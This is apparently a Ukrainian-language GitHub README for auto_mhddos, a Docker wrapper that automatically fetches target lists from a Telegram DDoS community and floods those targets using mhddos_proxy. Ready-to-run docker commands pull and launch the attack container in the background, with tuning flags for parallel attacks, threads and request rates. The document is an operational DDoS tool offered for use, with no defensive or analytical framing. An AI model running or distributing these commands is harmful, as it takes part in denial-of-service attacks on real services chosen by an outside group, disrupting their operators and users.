 ### 👉 [English](./README.md)

### 👉 [Русский](./README.ru.md)

# [auto_mhddos](https://github.com/nn1k1kvn/auto_mhddos) – інструмент для автоматизації роботи [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

Цей інструмент під час роботи періодично буде
підтягувати [цілі](https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner_targets)
від спільноти [Український Жнець](https://t.me/ukrainian_reaper_ddos) та атакувати їх. Вам не потрібно власноруч перезапускати контейнер.

## Встановлення

Встановіть Docker:

- [Windows](https://docs.docker.com/desktop/windows/install/)
- [Linux](https://docs.docker.com/engine/install/#server)
- [Mac](https://docs.docker.com/desktop/mac/install/)

ВАЖЛИВО: в залежності від обраного метода, вам може знадобитися запускати команди докера від імені root
користувача (`sudo docker run ...`).

## Застосування

### Запустити у фоні

```shell
docker run -dit --name auto_mhddos --restart unless-stopped --pull always ghcr.io/nn1k1kvn/auto_mhddos:latest
```

### Подивитися логи

```shell
docker logs -f auto_mhddos
```

### Зупинити

```shell
docker rm -f auto_mhddos
```

### Налаштування

Додатково можна передати наступні параметри під час запуску контейнера:

#### `--parallel 2`

За замовчуванням: `1`

Скільки запускати одночасних атак. Краще збільшувати це число поступово (`1`, `2`, `3`), дивлячись при цьому на навантаження на процесор та оперативну пам'ять, щоб знайти оптимальне значення.

#### Також підтримуються усі параметри з [документації mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy#usage) (окрім цілей та `-c`)

### Приклад

```shell
docker run -dit --name auto_mhddos --restart unless-stopped --pull always ghcr.io/nn1k1kvn/auto_mhddos:latest --parallel 2 -t 2000 --rpc 1000
```
